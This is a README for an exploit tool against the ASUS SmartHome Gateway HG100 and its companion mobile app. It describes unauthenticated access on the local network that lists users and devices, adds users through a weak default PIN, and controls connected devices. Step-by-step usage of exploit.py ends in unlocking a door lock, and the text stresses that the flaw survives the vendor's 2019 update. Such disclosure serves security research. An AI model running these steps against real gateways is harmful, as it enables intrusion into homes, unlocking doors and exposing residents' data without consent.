

# ASUS-SmartHome-Exploit

<!-- Please excuse my poor English.QQ -->
## Description
If the attacker is on the same internal network as the HG100 or a mobile device with the companion APP([android](https://play.google.com/store/apps/details?id=com.asus.zhenaudi&hl=en_US) or [iPhone](https://itunes.apple.com/tw/app/asus-smarthome/id1035482771?mt=8)). The attacker can send control requests to them.<br>

<dl>
  <dt>The attacker then does not need any authentication to do the following:</dt>
  <dd>1. Get all user names that have been added to the HG100.</dd>
  <dd>2. Get all devices information under the SmartHome Gateway(HG100).</dd>
  <dd>3. Control all controllable devices (e.g. DoorLock, Meter Plug ...) under the SmartHome Gateway.</dd>
  <dt>The following need password (4 to 6 digits, default: "0000") :</dt>
  <dd>1. Add users to HG100.</dd>
</dl>


## Exploit usage:

#### scan exploitable port :

```
usage: exploit.py scan [-h] [-v] target_ip

scan exploitable port

positional arguments:
  target_ip   scan ip

optional arguments:
  -h, --help  show this help message and exit
  -v          show account email list
```

#### send command to target :

```
usage: exploit.py cmd [-h]
                      (-u | -l | -s device_id | -c device_id status | -a username)
                      [--user username] [--new-user username] [-v]
                      target

send command to target

positional arguments:
  target                <target-ip>:<port>

optional arguments:
  -h, --help            show this help message and exit
  -u, --list-user       list all user in device
  -l, --list-device     list all device status
  -s device_id, --device-status device_id
                        list device status
  -c device_id status, --device-control device_id status
                        control device status
  -a username, --add-user username
                        add a user to device
  --user username       assign user for cmd
  --new-user username   create a new user for cmd
  -v                    show account email list
```

<br>
<b>Note</b>: 2019/5/15 - ASUS release update for SmartHome APP(3.0.42_190515) and Gateway(4.00.06). And added SSL to HTTP service. But this vulnerability still exists. For this update, you need to specify protocal when using the "cmd" argument.  
For example: 

``` sh
$ ./exploit.py cmd https://10.42.50.166:8083 -l
```
<br>

## Use example:
### Step1:
Scan mobile device (installed the companion APP for android or iPhone) exploitable port :<br>

P.S. The `-v` option will list the users that have been added to the HG100.<br>

or<br>

Scan HG100 exploitable port :<br>

<br>
<br>
### Step2:
Get all user that have been added to the HG100:


or add a new one:

<br>

Note: use <b>https://</b>10.42.50.166:8083 for "cmd" argument.   
For example:

``` sh
$ ./exploit.py cmd https://10.42.50.166:8083 -u
```
<br>

### Step3:
Get all devices information under the SmartHome Gateway:

P.S. If the `--user` option is not set, the first user in HG100 will be selected automatically. (Because no password is needed)

Compare with app:<br>

<br>
<br>
### Step4:
Control (unlock) the DoorLock.

P.S. the value `1028` get from `-l` option(step3).

Result: <br>
